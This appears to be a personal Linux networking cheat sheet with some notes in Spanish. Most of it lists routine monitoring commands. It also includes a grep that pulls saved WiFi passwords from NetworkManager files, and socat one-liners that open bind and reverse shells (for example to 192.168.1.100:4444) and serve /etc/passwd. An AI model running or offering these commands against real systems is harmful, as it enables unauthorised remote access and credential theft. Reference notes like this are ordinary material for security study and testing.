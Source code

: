 # Networking


ip2route suite


Monitoring

    iftop

    tcpdump

    netstat -tuln

    ss -tuln

    dmesg | grep -i net

    nload

    bmon

    curl ifconfig.me

    ip addr
    ip a
    hostname -I ; -i
    ip -s -s neigh flush all  (limpiar ARP cache)



    ls -lha /etc/NetworkManager/system-connections/*
    grep -i 'psk' /etc/NetworkManager/system-connections/* (Obtener WIFI passwords)
    
    nmcli connection show

    

## tcpdump


    tcpdump -i eth0 -nn -e

    


## Connections

    REVERSE_IP=$(hostname -I | tr -d " ")

    socat TCP-LISTEN:4444 EXEC:/bin/bash
    socat TCP-LISTEN:5555 SYSTEM:"id"
    socat TCP-CONNECT:192.168.1.100:4444 EXEC:/bin/sh
    socat TCP-LISTEN:6666 EXEC:"cat /etc/passwd"


    ss


